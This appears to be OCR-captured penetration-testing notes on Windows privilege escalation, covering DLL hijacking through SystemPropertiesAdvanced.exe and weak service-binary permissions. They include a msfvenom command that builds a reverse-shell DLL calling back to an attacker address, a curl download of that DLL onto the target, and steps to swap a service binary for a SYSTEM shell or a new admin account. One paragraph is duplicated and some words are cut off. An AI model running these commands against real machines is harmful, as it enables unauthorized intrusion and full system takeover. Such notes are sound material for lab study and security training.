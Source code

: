 ```


        -Reviewing Path Variable

        PS C:\> cmd /c echo %PATH%

        -Generating Malicious srrstr.dll DLL

        $ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

        -Downloading DLL Target

        PS C:\>curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"

        -Testing Connection

        f we execute the malicious srrstr.dll file, we will receive a shell back showing normal user rights (UAC enabled)

        -Executing SystemPropertiesAdvanced.exe on Target Host

        C:\> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe






                --Weak Permissions


        -Permissive File System ACLs

        -SharpUp

        We can use SharpUp from the GhostPack suite of tools to check for service binaries suffering from weak ACLs

        (  https://github.com/GhostPack/SharpUp/  )

        PS C:\> .\SharpUp.exe audit

        -Checking Permissions with icacls

        Using icacls we can verify the vulnerability and see that the EVERYONE and BUILTIN\Users groups have been granted full permissions to the directory, and therefore any unprivileged system user can manipulate the directory and its contents.

        (   https://ss64.com/nt/icacls.html  )

        PS C:\> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

        -Replacing Service Binary

        This service is also startable by unprivileged users, so we can make a backup of the original binary and replace it with a malicious binary generated with msfvenom. It can give us a reverse shell as SYSTEM, or add a local admin user and give us full administrative control over the machine.

        This service is also startable by unprivileged users, so we can make a backup of the original binary and replace it with a malicious binary generated with msfvenom. It can give us a reverse shell as SYSTEM, or add a local admin user and give us full administrative control over the machine.

```